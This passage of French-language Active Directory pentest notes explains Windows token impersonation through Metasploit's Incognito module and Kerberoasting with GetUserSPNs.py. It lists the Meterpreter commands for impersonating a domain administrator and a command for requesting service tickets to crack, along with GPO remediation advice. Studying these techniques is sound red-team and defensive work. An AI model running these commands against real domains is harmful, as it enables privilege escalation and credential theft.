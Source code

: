 Deux types de tokens : 
	- Delegate : créés pour se logger à une machine ou utiliser RDP
	-  Impersonate: créés lorsque les utilisateurs se connectent de manière non interactive à un système, par exemple en accédant à un disque partagé sur le réseau. En général, les utilisateurs ne sont pas invités à fournir des informations d'identification lorsqu'ils accèdent au partage ; ils utilisent leurs jetons pour l'accès.

### 2.2 Avec Incognito (Metasploit)

On part du principe que l'on a déjà un shell avec Metasploit (en utilisant windows/smb/psexec)
Payload : *windows/x64/meterpreter/reverse_tcp*

Sur la session meterpreter:
*load incognito*
*list_tokens -u (liste les tokens)*
*impersonate_token <nom trouver avec la commande précédente>* (ex: domain\\administrator)
*whoami* (on est l'utilisateur sélectionné précédemment)
*rev2self* (on redevient le user que l'on était avant l'attaque)

### 2.3 Remédiation

- Limiter les autorisations afin que les utilisateurs et les groupes d'utilisateurs ne puissent pas créer de tokens. Ce paramètre ne doit être défini que pour le compte système local. GPO : Configuration de l'ordinateur > [Stratégies] > Paramètres Windows > Paramètres de sécurité > Stratégies locales > Attribution des droits d'utilisateur : Créer un objet jeton. Définissez également qui peut créer un jeton au niveau du processus, uniquement pour le service local et le service réseau, par l'intermédiaire d'un GPO : Configuration de l'ordinateur > [Politiques] > Paramètres Windows > Paramètres de sécurité > Politiques locales > Attribution des droits d'utilisateur : Remplacer un jeton de niveau processus.

- Les administrateurs doivent se connecter en tant qu'utilisateur standard, mais exécuter leurs outils avec des privilèges d'administrateur en utilisant la commande intégrée de manipulation des jetons d'accès (runas).

- Un adversaire doit déjà disposer d'un accès de niveau administrateur sur le système local pour pouvoir utiliser pleinement cette technique ; veillez à limiter les utilisateurs et les comptes aux privilèges les moins importants dont ils ont besoin.


## 3. Kerberoasting

### 3.1 Overview

Le but est d'obtenir un TS et déchiffrer le hash du compte associé

On doit avoir les creds d'un user valide (même si pas admin).

### 3.2 Déroulement de l'attaque

*GetUserSPNs.py <domain_name.local>/jdoe:Pass123 -dc-ip <IP du DC> -request*

On obtient le hash d'un service
On le copie et on le casse
